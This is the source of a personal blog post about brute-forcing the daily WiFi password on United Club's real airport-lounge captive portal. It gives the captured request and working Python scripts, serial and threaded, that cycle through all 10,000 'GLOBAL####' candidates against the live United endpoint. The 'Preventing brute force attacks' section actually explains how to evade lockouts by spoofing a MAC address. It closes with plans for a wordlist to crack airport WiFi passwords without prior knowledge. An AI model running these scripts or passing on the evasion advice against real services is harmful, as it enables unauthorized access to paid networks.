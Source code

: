 ```yaml
---
title: "Bruteforcing United Club's WiFi password"
date: 2018-10-09 16:21:49
header-img: "/images/united-pass.png"
---
```

<link rel="stylesheet" href="/stylesheets/main.css"/>

I'm a frequent traveler and stay in lounges fairly often (shoutout [/r/churning](https://reddit.com/r/churning)!). Most lounges don't use traditional [WiFi Authentication](https://tools.ietf.org/html/rfc4764) - instead they rely on some form of captive gate. This allows them to provide user content, collect a more information on the users of the service, and rotate the password easily.

Every time I've been to a United Club lounge, the password has been of the form `GLOBAL####`, with a random last 4 digits. This only creates 10,000 unique possible passwords, which is a fairly small search space. Although I had the password in front of me I wanted to see if I could figure it out using other means.

<img src="/images/united-signin.png">
<p class="footnote">United Club captive page</p>


## Intercepting Network Requests

Chrome trivializes intercepting network requests. Normally I'd man-in-the-middle myself using Burp Suite or Charle's Proxy, but since this was just a site we can use the built in devtools network tab. 

Once submitting a random password the route shows up in devtools.

<img src="/images/united-network.png">
<p class="footnote">United Club password attempt route</p>

It looks like it'll return a `302` status if the password is incorrect and (I assumed) a `2XX` when it's correct. Devtools has a handy "Copy as Curl" function that allows you to copy any network request as a curl request just by right-clicking on it. 

<img src="/images/copyascurl.png">
<p class="footnote">Devtools Copy as Curl functionality</p>

```bash
curl 'https://ualwifi.united.com/auth/index.html/u' \
-H 'Connection: keep-alive' \
-H 'Pragma: no-cache' \
-H 'Cache-Control: no-cache' \
-H 'Origin: https://ualwifi.united.com' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'DNT: 1' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36' \
-H 'Sec-Metadata: cause="user-activated", destination="document", site="same-origin"' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' \
-H 'Referer: https://ualwifi.united.com/upload/custom/unitedclub_cp/login_united_club.html?errmsg=Authentication%20failed' \
-H 'Accept-Encoding: gzip, deflate, br' \
-H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' \
-H 'Cookie: newHP=true; loc=refer=https://www.united.com/en/US/loyalty/account/activity; Locale=POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L; SearchInput={"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false};  D3Name=; D3Locator=; CPsession=http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169' \
--data 'user=GLOBAL1111&password=NULL&cmd=authenticate&Login=Sign+in' \
--compressed -v
```
<p class="footnote">Note: Session and User IDs removed</p>

Now that I had the curl request I could play around with the state and paremeters. It looks like the form is actually encoding the password as the username and the password as NULL.

As a sidenote, this **probably** means that any built in password bruteforcing checks with the library they're using *won't* work because we aren't trying the same username with a different password over and over again - we are just iterating over different usernames with the same password. I can't be sure of this but it 

Shell scripting is fine in a pinch but I wanted something more robust. There's a neat utility that'll convert a curl request to Python/Node/PHP [here](https://curl.trillworks.com). Now that I had python code that had valid state I could quickly iterate over all combinations.

```python
import requests

cookies = {
    'newHP': 'true',
    'loc': 'refer=https://www.united.com/en/US/loyalty/account/activity',
    'Locale': 'POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L',
    'SearchInput': '{"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false}',
    'D3Name': '',
    'D3Locator': '',
    'CPsession': 'http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Origin': 'https://ualwifi.united.com',
    'Upgrade-Insecure-Requests': '1',
    'DNT': '1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36',
    'Sec-Metadata': 'cause="user-activated", destination="document", site="same-origin"',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    'Referer': 'https://ualwifi.united.com/upload/custom/unitedclub_cp/login_united_club.html?errmsg=Authentication%20failed',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9,it;q=0.8',
}

data = {
  'user': 'GLOBAL1111',
  'password': 'NULL',
  'cmd': 'authenticate',
  'Login': 'Sign in'
}

response = requests.post('https://ualwifi.united.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
```

## Bruteforcing the login

Running the python above returns the exact same as the network request - a `302` redirect, indicating the passphrase was not correct.

I could write a quick wrapper to the request such that it would try all combinations 0000 to 9999.

```python
for i in range(10000):
	attempt = "%04d" % i # h/t /u/paulschreiber
	data = {
	  'user': 'GLOBAL' + attempt,
	  'password': 'NULL',
	  'cmd': 'authenticate',
	  'Login': 'Sign in'
	}
	response = requests.post('https://ualwifi.united.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
	if response.status_code != 302:
		print('Valid passphrase found: GLOBAL%s' % attempt)
```

Unfortunately this was pretty slow - it would serialize the attempts, which would not allow an attempt to be made until the previous network request had returned. A little threading magic (and ratelimiting) and we'd be on our way.

```python
import threading 
import time

def brute_force_pass(attempt):
	data = {
	  'user': 'GLOBAL' + attempt,
	  'password': 'NULL',
	  'cmd': 'authenticate',
	  'Login': 'Sign in'
	}
	response = requests.post('https://ualwifi.united.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
	if response.status_code != 302:
		print('Valid passphrase found: GLOBAL%s' % attempt)

for i in range(10000):
	attempt = "%04d" % i # h/t /u/paulschreiber
	threading.Thread(target=brute_force_pass, args=[attempt]).start()
	time.sleep(0.05) # sleep for 1/20th of a second so we don't start timing out or running out of sockets
```

Fortunately the United captive portal is running locally so the RTT is pretty low, which means that the server replies fairly quickly. At `0.05` seconds (plus overhead) per request we should be able to try the entire search space in just over 8 minutes. 

I left to go grab a rum and coke and by the time I came back it had finished.

<img src="/images/united-pass.png">
<p class="footnote">Daily United Club password</p>

And there you have it! Today's WiFi password is `GLOBAL9980`.

The best part about it was that the valid attempt automatically whitelisted that mac address - I didn't even need to type the password in myself.

## Preventing brute force attacks

I was worried I'd run into ratelimiting or start getting `429`'s from United. Fortunately that never happend, but I've run into similar services that will lock you out. A good way around this is to spoof your mac address - at that point, there is no way for a router to recognize that it's your device that has made all these attempts, and will allow you to keep doing so uninhibited. 

As an aside spoofing your mac address on the 2018 MacBook Pro's seems to not work any more, so if anyone knows how to do it I'd be very grateful (`sudo ifconfig en0 ether aa:bb:cc:dd:ee:ff` no longer works).

## Conclusions

This also would've been possible to do with BurpSuite and setting up Intruder, but I didn't really want to go to that effort. This was a quick exercise in seeing how easy this would be if I was standing *outside* the lounge, without access to the password. Any online service that uses a captive portal is susceptible to this attack. One of these days I'm planning on building an airport-centric wordlist (i.e. Lounge, WiFi, &lt;airport name&gt;, &lt;airline name&gt;, current year, etc.) so that bruteforcing *without* any preexisting knowledge also becomes feasible.

Overall fairly successful for 10 minutes of work!

Comments can be found on reddit, [here](https://www.reddit.com/r/jonluca/comments/9mvg4s/bruteforcing_united_clubs_wifi_password/?)